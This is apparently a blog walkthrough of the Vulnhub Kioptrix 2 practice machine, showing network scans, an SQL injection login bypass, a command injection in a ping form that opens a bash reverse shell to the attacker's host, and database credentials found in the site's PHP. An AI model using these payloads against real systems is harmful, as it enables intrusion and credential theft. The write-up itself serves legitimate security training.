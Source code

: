```yaml
---
layout: post
title:  "Vulnhub - Kioptrix 2"
date:   2017-04-19 18:19:00 +0100
categories: vulnhub kioptrix
image:
  feature: kioptrix2.jpg
  credit:
  creditlink:
---
```


```bash
root@kali:~# arp-scan -l
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.137.1	00:50:56:c0:00:01	VMware, Inc.
192.168.137.133	00:0c:29:9e:ff:2f	VMware, Inc.
192.168.137.254	00:50:56:fe:05:d2	VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9: 256 hosts scanned in 1.851 seconds (138.30 hosts/sec). 3 responded
```
```bash
root@kali:~# nmap -A 192.168.137.133

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-04-19 19:24 BST
Nmap scan report for 192.168.137.133
Host is up (0.00019s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            855/udp  status
|_  100024  1            858/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2017-04-19T15:15:02+00:00; -3h09m44s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:9E:FF:2F (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.19 ms 192.168.137.133

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.14 seconds
```

I didn't really know SQL Injection going into this, and I did end up looking up the solution

```mysql
' or 1=1 --
```

This is a pretty standard example of an SQL injection and gives us access to form allowing us to ping a device on the network.  This immediately suggested some form of command injection.  Since it's a vulnerable machine, it seemed fairly obvious that we could input some other command.  So lets try and spawn a reverse shell.

```bash
192.168.137.128 && bash -i >& /dev/tcp/192.168.137.128/1234 0>&1
```

Boom!  We have a shell.

```bash
root@kali:/usr/share/wordlists# nc -l -p 1234 -vvv
listening on [any] 1234 ...
192.168.137.133: inverse host lookup failed: Unknown host
connect to [192.168.137.128] from (UNKNOWN) [192.168.137.133] 32771
bash: no job control in this shell
bash-3.00$ ls
index.php
pingit.php
bash-3.00$ 
```

Let's have a look inside the php files and see if we see anything interesting.  Inside index.php after a little searching we find some credentials to the local mysql database.

```bash
mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
```
